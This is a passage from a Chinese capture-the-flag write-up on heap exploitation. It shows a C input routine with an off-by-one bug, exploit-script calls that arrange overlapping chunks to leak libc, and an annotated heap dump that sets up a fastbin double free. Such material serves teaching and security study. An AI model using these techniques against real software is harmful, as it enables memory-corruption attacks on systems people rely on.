 ```c
 			if(!nptr) {
 				puts("FATAL:Out of memory");
 				exit(-1);
 			}
 			ptr = (char *)(key+csize);
 			chunk_sz = malloc_usable_size(nptr);
 		}
 		*ptr++ = c;
 	}
 	*ptr = 0;
 	
 	return key;
 }
 ```
 
那么以 off by one 漏洞为基础，进行一系列堆内存的操作 ，构造出相互交叠的 chunk，便是我们的第一个目标。

# Leak Libc

首先 PUT 三块键值对数据块 A、B、C，A 和 C 的 data chunk 需为 small bin 大小，C 的 data chunk 前面的 chunk 需要先 free 一下，这里 C 的 data chunk 设置成 0x70 是为后面的 exploit 做准备。

```c
DEL("th3fl4g")

PUT("A"*0x8, 0x80, p8(0)*0x80)
PUT("B"*0x8, 0x18, p8(0)*0x18)
PUT("C"*0x8, 0x60, p8(0)*0x60)
PUT("C"*0x8, 0xf0, p8(0)*0xf0)


0x55e252387000:	0x00000000	0x00000000	0x00000041	0x00000000	-> A
0x55e252387010:	0x52387090	0x000055e2	0x00000080	0x00000000
0x55e252387020:	0x523870b0	0x000055e2	0x00000000	0x00000000
0x55e252387030:	0x00000000	0x00000000	0x52387140	0x000055e2
0x55e252387040:	0x00000001	0x00000000	0x00000021	0x00000000	-> B.data
0x55e252387050:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387060:	0x00000000	0x00000000	0x00000021	0x00000000	-> B.key
0x55e252387070:	0x42424242	0x42424242	0x00000000	0x00000000
0x55e252387080:	0x00000000	0x00000000	0x00000021	0x00000000	-> A.key
0x55e252387090:	0x41414141	0x41414141	0x00000000	0x00000000
0x55e2523870a0:	0x00000000	0x00000000	0x00000091	0x00000000	-> A.data
0x55e2523870b0:	0x00000000	0x00000000	0x00000000	0x00000000	(small bin)
0x55e2523870c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387100:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387110:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387120:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387130:	0x00000000	0x00000000	0x00000041	0x00000000	-> B
0x55e252387140:	0x52387070	0x000055e2	0x00000018	0x00000000
0x55e252387150:	0x52387050	0x000055e2	0x52387010	0x000055e2
0x55e252387160:	0x52387180	0x000055e2	0x00000000	0x00000000
0x55e252387170:	0x00000000	0x00000000	0x00000041	0x00000000	-> C
0x55e252387180:	0x523871c0	0x000055e2	0x000000f0	0x00000000
0x55e252387190:	0x523872b0	0x000055e2	0x00000000	0x00000000
0x55e2523871a0:	0x00000000	0x00000000	0x52387140	0x000055e2
0x55e2523871b0:	0x00000001	0x00000000	0x00000021	0x00000000	-> C.key
0x55e2523871c0:	0x43434343	0x43434343	0x00000000	0x00000000
0x55e2523871d0:	0x00000000	0x00000000	0x00000071	0x00000000	(fastbin
0x55e2523871e0:	0x00000000	0x00000000	0x00000000	0x00000000	for
0x55e2523871f0:	0x00000000	0x00000000	0x00000000	0x00000000	double free)
```